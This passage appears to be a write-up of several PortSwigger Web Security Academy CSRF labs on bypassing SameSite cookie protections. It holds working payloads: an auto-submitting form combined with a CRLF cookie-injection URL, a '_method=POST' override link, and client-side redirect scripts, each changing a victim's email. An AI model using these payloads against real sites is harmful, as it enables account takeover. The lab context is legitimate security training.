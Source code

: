 If we check the search field we see that we have the **LastSearchTerm** as the previous laboratory.

We have to do the same, but csrf key and csrf token in this case is the same, example 'test'.

```html
<form class="login-form" name="change-email-form" action="https://0ace000d030e53a581a9074900ba00df.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@pwned.com">
    <input type="hidden" name="csrf" value="test">
</form>

<img src="https://0ace000d030e53a581a9074900ba00df.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=test%3b%20SameSite=None" onerror="document.forms[0].submit();">
```

# SameSite Lax bypass via method override

If we intercept the request we see that doesn't have csrf key, csrf token nothing. This is very simple, we can create our server and send the request via post and when the user click as he has the session cookie change his own email.

But is not the idea of this lab, in the title put "method override", if we try to change the method to GET, in repeater right click > change request method.

With GET is more easy because only have to send the link with the new email, but if we send the request we see that the method is not allowed.

Sometimes, depend of how the backend is constructed you can override the method chaining `&_method=POST`

```
/my-account/change-email?email=test%40test.com&_method=POST
```

With this the backend think that is sending by POST.

In exploit server with a simple redirection:

```html
<script>
location = 'https://0ab4004004f593328198214500d200d3.web-security-academy.net/my-account/change-email?email=pwned%40pwned.com&_method=POST';
</script>
```

# SameSite Strict bypass via client-side redirect

We are going to using a redirect in the same site to do the CSRF.

In this case we can change the request to GET and when we send the request is valid.

We can try to add to exploit server.
```
<script>
location = 'https://0a7f006d046f159a80b703e500410045.web-security-academy.net/my-account/change-email?email=test@test.com&submit=1';
</script>
```
